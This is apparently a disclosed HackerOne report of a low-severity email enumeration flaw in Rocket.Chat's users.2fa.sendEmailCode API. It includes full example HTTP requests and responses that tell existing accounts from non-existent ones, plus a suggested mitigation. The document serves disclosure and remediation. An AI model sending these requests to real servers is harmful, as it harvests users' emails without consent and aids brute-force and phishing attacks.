 # Hi! Security Team Rocket.Chat, It's possible to get information about the users emails without authentication

## Report Details
- **Report ID**: 1089116
- **URL**: https://hackerone.com/reports/1089116
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-01-28T01:28:10.049Z
- **Disclosed**: 2021-04-29T15:09:06.025Z

## Reporter
- **Username**: khekhe
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Description:** 
Email enumeration vulnerability.
Vulnerable api method: ```/api/v1/users.2fa.sendEmailCode```

##Releases Affected::

  * Rocket.Chat up to 3.10.5

Request for existing account:
```
POST /api/v1/users.2fa.sendEmailCode HTTP/1.1
Host: rocket-chat.local:3000
Referer: http://rocket-chat.local:3000/home
Connection: close
Content-Length: 36
Content-Type: application/json;charset=UTF-8

{"emailOrUsername":"test@test.test"}
```
Response
```
HTTP/1.1 200 OK
X-XSS-Protection: 1
X-Content-Type-Options: nosniff
X-RateLimit-Limit: 10
X-RateLimit-Remaining: 7
X-RateLimit-Reset: 1611804788737
content-type: application/json
Content-Length: 16

{"success":true}
```
Request for non-existent account:
```
POST /api/v1/users.2fa.sendEmailCode HTTP/1.1
Host: rocket-chat.local:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://rocket-chat.local:3000/home
Connection: close
Content-Length: 37
Content-Type: application/json;charset=UTF-8

{"emailOrUsername":"test2@test.test"}
```
Response
```
HTTP/1.1 400 Bad Request
X-XSS-Protection: 1
X-Content-Type-Options: nosniff
X-Frame-Options: sameorigin
Pragma: no-cache
X-RateLimit-Limit: 10
X-RateLimit-Remaining: 9
X-RateLimit-Reset: 1611805550459
Content-Length: 94

{"success":false,"error":"Invalid user [error-invalid-user]","errorType":"error-invalid-user"}
```


## Suggested mitigation

  * Use general messages when a user exists in the system and when user doesn't exist in the system.

## Impact

Information disclosure which opens new attack vectors - helpful for injections/brute-force attacks/social-engineering etc.

## Attachments
No attachments
